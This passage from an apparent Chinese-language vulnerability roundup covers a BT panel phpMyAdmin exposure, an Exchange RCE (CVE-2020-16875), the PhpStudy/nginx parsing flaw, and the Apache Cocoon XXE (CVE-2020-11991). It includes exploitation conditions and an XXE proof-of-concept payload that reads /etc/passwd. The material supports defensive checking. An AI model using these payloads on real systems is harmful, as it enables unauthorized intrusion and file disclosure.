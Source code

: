 &emsp;&emsp;宝塔默认phpMyadmin端口就是888，而这个漏洞排查方式极其简单，访问`172.10.0.121:888/pma`。如果宝塔是存在安全问题的版本,那就会直接出现phpMyadmin面板页面。

### Exchange Server 远程代码执行漏洞 [CVE-2020-16875]

&emsp;&emsp;只需要一个Exchange用户账号，就能在Exchange服务器上执行任意命令。

### PhpStudy nginx 解析漏洞

&emsp;&emsp;小皮面板 <= 8.1.0.7，其实这个漏洞确实不是phpstudy的问题，而是2017年就出现的nginx解析漏洞。

&emsp;&emsp;利用条件就只需要把php恶意文件上传（oss不算!）到服务器。通过`/x.txt/x.php`方式访问上传的图片地址就解析了php代码。

![](/img/HW-Vuln/HW19.png)

### Apache Cocoon XML注入 [CVE-2020-11991]

&emsp;&emsp;程序使用了StreamGenerator这个方法时，解析从外部请求的xml数据包未做相关的限制，恶意用户就可以构造任意的xml表达式，使服务器解析达到XML注入的安全问题。

&emsp;&emsp;漏洞利用条件有限必须是apacheCocoon且使用了StreamGenerator，也就是说只要传输的数据被解析就可以实现了。

&emsp;&emsp;利用POC：

```XML
<!--?xml version="1.0" ?-->

<!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///etc/passwd"> ]>

<userInfo>

<firstName>John</firstName>

<lastName>&ent;</lastName>

</userInfo>

```

![](/img/HW-Vuln/HW20.png)
